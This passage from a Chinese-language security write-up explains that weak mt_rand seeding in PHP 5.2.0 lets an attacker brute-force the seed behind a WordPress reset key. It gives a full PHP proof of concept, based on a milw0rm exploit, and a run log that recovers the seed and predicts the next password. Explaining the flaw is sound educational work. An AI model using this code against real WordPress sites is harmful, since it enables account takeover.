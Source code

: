 通过上面的代码发现$a==$b，所以我们循环的次数为2^32/2=2^31次。我们看如下代码：

> –code————————————————————————-
>  //base on http://www.milw0rm.com/exploits/6421
> //test on php 5.2.0
>
> define(‘BUGGY’, 1); //上面代码$a==$b时候定义BUGGY=1
>
> $key = wp\_generate\_password(20, false);
> echo $key.”\n”;
> $seed = getseed($key);
> print $seed.”\n”;
>
> mt_srand($seed);
> $pass = wp\_generate\_password(20, false);
> echo $pass.”\n”;
>
> function wp\_generate\_password($length = 12, $special_chars = true) {
> $chars = ‘abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789’;
> if ( $special_chars )
> $chars .= ‘!@#$%^&*()’;
>
> $password = ”;
> for ( $i = 0; $i < $length; $i++ )
> $password .= substr($chars, mt_rand(0, strlen($chars) – 1), 1);
> return $password;
> }
>
> function getseed($resetkey) {
> $max = pow(2,(32-BUGGY));
> for($x=0;$x<=$max;$x++) {
> $seed = BUGGY ? ($x << 1) + 1 : $x;
> mt_srand($seed);
> $testkey = wp\_generate\_password(20,false);
> if($testkey==$resetkey) { echo “o\n”; return $seed; }
>
> if(!($x % 10000)) echo $x / 10000;
> }
> echo “\n”;
> return false;
> }
> ?>
> ——————————————————————————-

运行结果如下：

> ——————————————————————————-
> php5>php rand.php
> M8pzpjwCrvVt3oobAaOr
> 0123456789101112131415161718192021222324252627282930313233343536373839404142434
> 445464748495051525354555657585960616263646566676869
> 7071727374757677787980818283848586878889909192939495969798991001011021031041051
> 061071081091101111121131141151161171181191201211221
> 2312412512612712812913013113213313413513613713813914014114214314414514614714814
> 915015115215315415515615715815916016116216316416516
> 6167168169170171172173174175176177178179180181182183184185186187188189190191192
> 193194195196197198199200201202203204205206207208209
> 2102112122132142152162172182192202212222232242252262272282292302312322332342352
> 362372382392402412422432442452462472482492502512522
> …………..01062110622106231062410625106261062710628106291063010631106321063
> 3o
> 70693
> pjwCrvVt3oobAaOr
> ——————————————————————————-
